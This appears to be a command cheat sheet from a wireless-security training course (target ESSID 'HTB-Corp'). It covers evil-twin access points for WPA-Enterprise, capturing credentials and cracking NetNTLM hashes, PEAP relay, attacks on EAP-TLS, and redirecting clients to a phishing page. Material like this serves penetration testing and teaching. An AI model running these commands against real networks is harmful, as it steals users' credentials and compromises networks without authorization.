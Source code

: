 | Command | Description |
| --- | --- |
| `openssl dhparam -out dh.pem 2048` | Generate Diffie-Hellman parameters. |
| `openssl genrsa -out ca-key.pem 2048` | Generate CA private key. |
| `openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem` | Generate CA certificate. |
| `openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem` | Generate server private key. |
| `openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem` | Generate server certificate. |
| `sudo hostapd-mana hostapd.conf` | Start the fake access point using hostapd-mana. |
| `/opt/eaphammer/eaphammer --cert-wizard` | Generate self-signed certificates automatically with eaphammer. |
| `sudo /opt/eaphammer/eaphammer --interface wlan1 --negotiate balanced --auth wpa-eap --essid HTB-Corp --creds` | Start the fake access point using eaphammer. |

# Enterprise Evil-Twin Attack

| Command | Description |
| --- | --- |
| `cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf` | Make a copy of the hostapd-wpe configuration file. |
| `sudo hostapd-wpe -c -k hostapd-wpe.conf` | Start the fake access point using hostapd-wpe. |
| `/opt/eaphammer/eaphammer --cert-wizard` | Generate self-signed certificates automatically using eaphammer. |
| `sudo /opt/eaphammer/eaphammer -i wlan1 -e HTB-Corp --auth wpa-eap --wpa-version 2` | Start the fake access point using eaphammer. |
| `hashcat -m 5500 -a 0 <captured_hash> wordlist.dict` | Crack the captured NetNTLM hash using Hashcat. |

# PEAP Relay Attack

| Command | Description |
| --- | --- |
| `sudo hostapd-mana ./hostapd.conf` | Launch the fake access point using hostapd-mana. |
| `sudo /opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2` | Start the relay by initiating wpa-sycophant. |

# Attacking EAP-TLS Authentication

| Command | Description |
| --- | --- |
| `cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf` | Make a copy of the hostapd-wpe configuration file. |
| `cd /opt/hostapd-2.6 && patch -p1 < ../hostapd-wpe/hostapd-wpe.patch` | Apply the patch to the hostapd-2.6 source code. |
| `cd /opt/hostapd-2.6/hostapd && make` | Recompile hostapd with the updated configuration. |
| `sudo /opt/hostapd-2.6/hostapd/hostapd-wpe hostapd-wpe.conf` | Start the fake access point using the recompiled hostapd-wpe. |
| `sudo python2 nagaw.py -i wlan1 -o wlan2 -t demo` | Redirect clients to a phishing page using nagaw.py |
